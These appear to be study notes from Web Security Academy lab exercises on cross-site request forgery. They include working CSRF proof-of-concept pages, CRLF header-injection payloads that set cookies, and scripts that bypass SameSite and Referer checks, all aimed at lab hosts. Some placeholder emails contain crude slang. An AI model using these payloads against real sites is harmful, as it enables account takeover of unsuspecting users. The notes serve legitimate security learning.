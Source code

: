 Basic CSRF:
Capture request to change email
Right click > engagement tools > generate CSRF POC

Checks:
- A relevant Action (Change users email)
- Cookie-based session handling: session
- No unpredicatable parameters (search url parameter allows user to set cookie)

Tests:
- Change the request method from POST to GET
- Remove CSRF token and see if app accepts request
- See if csrf token can be replaced with other valid one
- See if csrf token is tied to non-session:
```
change Session cookie -> logs you out
change csrf key -> invalid CSRF token
= not linked
Change the csrf token and key to the ones of the other account you have (optional, just to confirm) -> observer we can use them
Header Injection:
Set csrfkey GET /?search=test%0d%0aSet-Cookie:%20csrfKey=5aXHr4eRTwOpjA0WncadN9qOmsDssRcJ%3b%20SameSite=None

adjust CSRF payload,change script for including you csrf token, adn key in the header injection:
<img src="https://0a93006d03b753f881a0263f004c004e.web-security-academy.net/?search=%0d%0aSet-Cookie:%20csrfKey=5aXHr4eRTwOpjA0WncadN9qOmsDssRcJ%3b%20SameSite=None" onerror="document.forms[0].submit()">


```
- See if token is duplicated in cookie (again header injection + csrf to set the cookie as the csrf token)
- If Refearer header is blocking:
	- try removing it including:`<meta name="referrer" content="no-referrer">`
	- try appending the valid referer as param (http://evil?trusted.com...):
		Include: `Referrer-Policy: unsafe-url` on the exploit server HEAD
		and add on history.pushState: `history.pushState("", "", "/?0a8b008a04164f71818339a700860008.web-security-academy.net")`
- Check SameSite restrictions
```
SameSite=Lax (Default):
-> Method overwrite
	-> ?email=putadon%40puta.com&_method=POSTbypass)
-> Cookie Refresh (OauthFlow refreshes cookie)
	-> CSRF POC +
    <script>
      window.open('https://0a60001d03b15848815a118a005f003e.web-security-academy.net/social-login');
      setTimeout(changeEmail, 5000);
      function changeEmail(){
            document.forms[0].submit();
      };
    </script>


SameSite=Strict in /login defined:
-> Redirection
	-> /post/comment/confirmation?postId=1/../../my-account/change-email?email=testosterona%40test.com&submit=1
	Change script in CSRF POC (urlencode &) 
	<script>
    document.location = "https://0af2006f049bd0da80cf8fb100a500ed.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned2%40web-security-academy.net%26submit=1";
</script>
```

- CWSH SameSite=Strict:
```
With XSS on a allowed subdomain (found in JS Access-Control-Allow-Origin: https://cms-0a7c0019032ef6f280b02152006100d7.web-security-academy.net):
<script>
document.location=https://cms-0a7c0019032ef6f280b02152006100d7.web-security-academy.net/login?username=URLENCODED-CWSH&password=anyting";
</script>

```



labs stuff ---------------------------------------------------------------
##### CSRF with method validation
Capture request to change email
Change Request method to GET
Right click > engagement tools > generate CSRF POC

##### CSRF with token being present validation
Do the same but delete CSRF token


#### CSRF where token is not tied to user session
The csrf is accepted as long as you provide a csrf token different from your account, as we have 2 accounts, we just use the other account's token to deliver the exploit

#### CSRF with token tied to non-session cookie
We got csrf token and csrfkey on the cookie
![[Pasted image 20231030110352.png]]
If we change both csrf token and key to the ones the other user we have got, we see that we can change the email, this means, the csrfkey is not tied to the cookie session, resulting in a succesfull CSRF through header injection

Now to exploit it, we need to find that header injection in the web

In the search functionality, we find that the search term is specifying a cookie with set cookie
![[Pasted image 20231030111808.png]]
![[Pasted image 20231030111816.png]]
So we can try setting our csrfkey with %0d%0a =```\n```
```
GET /?search=hat%0d%0aSet-Cookie:+csrfkey=dmFdSFxP8pg9qmSPAImzttb0uvTF0cQaG
```
![[Pasted image 20231030112338.png]]
Successfully changed the csrfkey, now we can create the CSRF POC
tokens of carlos:
```
csrftoken = mwLNx0eXZOoDjDVMX5ctYFSDFycVYysj
csrfkey = t7szbWLt4IOkC3ftCnatslM3Loe2Lghv
```
We generate the CSRF POC with csrf token and key from the other acc
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aab005a036dec45801dfd0b0038000e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pene&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="iigFzNlTW6q8KIu7QEcVmdaxjMKfQewe" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
But we need to do some changes, we need to change through the header injection the csrfkey also
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ab100fb04fa2ec48196707700a800df.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="payload5&#64;payload&#46;com" />
      <input type="hidden" name="csrf" value="FKZN7u06j0EHKhBRAdwQ35hgdqnV8QRv" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0ab100fb04fa2ec48196707700a800df.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=4oBd8bbzkosP8SpjDgIa4RJeI0IQaZ7U%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body>
</html>
```
It will try to load the image with the new cookie, then submit the contents of the POC, as the image is not valid
If we test it on a tab, we see that the POC works, changing the email succesfully
The victim uses chrome, so we need to deilver the exploit from chrome
![[Pasted image 20231030124045.png]]


##### SameSite Lax bypass via cookie refresh
```
If it has been longer than two minutes, you will be logged in via the OAuth flow, and the attack will fail. In this case, repeat this step immediately
Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit /social-login
Bypass the popup blocker
Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked.

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2000af047ae18382872975000e00e9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pitos&#64;pitos&#46;com" />
    </form>
		<p>Click Anywhere on the page</p>
    <script>
      window.onclick = () => {
				window.open('https://0a2000af047ae18382872975000e00e9.web-security-academy.net/social-login');
				setTimeout(changeEmail, 5000);
			}
			function changeEmail(){
				document.forms[0].submit()
			}
    </script>
  </body>
</html>
```


##### CSRF where Referer validation depends on header being present
Validation depends on referer being present:
![[Pasted image 20231218105700.png]]
```
Add meta to CSRF PoC
<meta name="referrer" content="no-referrer">
```

##### CSRF with broken Referer validation
```
Copy the original domain of your lab instance and append it to the Referer header in the form of a query string. The result should look something like this:
Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net
The website seems to accept any Referer header as long as it contains the expected domain somewhere in the string. 
Edit the JavaScript so that the third argument of the history.pushState() function includes a query string with your lab instance URL as follows:
history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")
To override strip behaviour sed a header:
Referrer-Policy: unsafe-url

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url


<html>
  <body>
    <form action="https://0ae900f403a5771e8151bb9f006e00e2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="aaaaaaaaaaaaaaaaaa&#64;pito&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0ae900f403a5771e8151bb9f006e00e2.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>


```

